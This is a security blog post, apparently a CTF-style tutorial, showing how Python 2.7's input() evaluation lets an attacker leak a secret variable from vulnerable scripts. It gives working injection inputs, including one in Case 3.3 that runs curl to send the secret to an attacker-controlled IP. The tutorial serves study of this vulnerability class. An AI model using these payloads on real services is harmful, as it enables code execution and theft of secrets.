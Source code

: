 ```yaml
---
title: Python - Hacking with style - input
description: Magic python input to compromise scripts
categories: python
author: Xh4H
tags: python proof-of-concept shell input vulnerability
---
```


This is the second part of [Python 2.7 input security issues](https://posts.xh4h.com/python/2019/08/02/input_poc.html) post.

In this post we will see what can be done appart from spawning a shell.

# Getting variable values

## Case 1 - string variable:

We are given a piece of code with hidden variable values:

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

if input("Password > ") == password:
	print "Awesome!"
else:
	print "Wrong!"
```

This simple script generates a 11 char length string, and we have to guess it.

There's `flag` variable, and we are interested on getting it's value.

A simple method is generating an error using that variable with `input`:

<div style="text-align:center"><img src="/assets/images/python2_image_1.png" /></div>

By attempting to parse to int a string that is not solely filled by numbers we will get an exception error, and since it did not get handled, we get the raw error output, containing, so, the variable content.

`1_am_s0_1nT3r3stinG`

## Case 2 - numeric variable:

In the following scenario the flag will only be numbers. We will re-use the same code from `Case 1`.

<div style="text-align:center"><img src="/assets/images/python2_image_2.png" /></div>

In this case we can't take advantage of parse to int feature, oh well, maybe we can...

<div style="text-align:center"><img src="/assets/images/python2_image_3.png" /></div>

What we did above is pretty simple. Given a string variable filled by numbers, we can concatenate a non-numeric character and afterwards parse to int the variable, getting so, our flag (removing, of course, the last character we added).

`123542562362161346`

## Case 3 - exceptions handled:

We took advantage of non-existant exception handling in the previous 2 cases.

Now we are given a script that is handling any exception. How can we get our precious flag?

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

try:
	if input("Password > ") == password:
		print "Awesome!"
	else:
		print "Wrong!"
except Exception as e:
	print "What are you doing?!"
```

If we put into practice the previous technique, we will get the `What are you doing?!` print, since any exception is being handled now.

We are going to have a look at **three** different techniques.

_Please note, the following cases can also be solved with `Case 3.1`, but the aim is having different cases to explore different possibilities._

### Case 3.1 - Re-using input function over and over ...

First let's understand how `input` function is used:

```py
input("Hey, write something here: ")
```

This piece of code will print ``Hey, write something here: `` and then ask for user input.

Since it is expecting a string, we can pass the flag as parameter.

<div style="text-align:center"><img src="/assets/images/python2_image_4.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.2 - Having access to the script location

If we have, let's say `ssh` access to the server where the script is being hosted, we can output the flag variable content to a file, and then read it.

With the following input, we will create a file called `my_flag` and write the flag to it.

```py
open("my_flag", "w").write(flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_5.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.3 - Remote connection? CURL it to me please!

Final case, let's imagine that this script is listening in port 8000. We don't have access to the server, we are establishing a connection using netcat `nc`.

We can execute a system command and curl the content of a variable through our pc.

First, set up an http listener using port 80:

```sh
python -m SimpleHTTPServer 80
```

Second, figure out our IP address. We have to take into account whether we are in a private network to access the server where that script is located.
Let's say we used an `OpenVPN` profile to be able to `netcat` to the target server. It is very likely that the target server won't have access to external IPs, therefore we will have to get our tunnel IP (tun0).

```sh
ifconfig tun0
```

<div style="text-align:center"><img src="/assets/images/python2_image_6.png" /></div>

We are going to use the following IP: ``10.10.14.7``.

We are now ready to retrieve that flag!

With the following line, we will be able to execute a bash system command, call curl appending the flag to the url:

```py
__import__('os').system("curl http://10.10.14.7/" + flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_7.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

<br>

We will write another post soon including more advanced techniques.

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>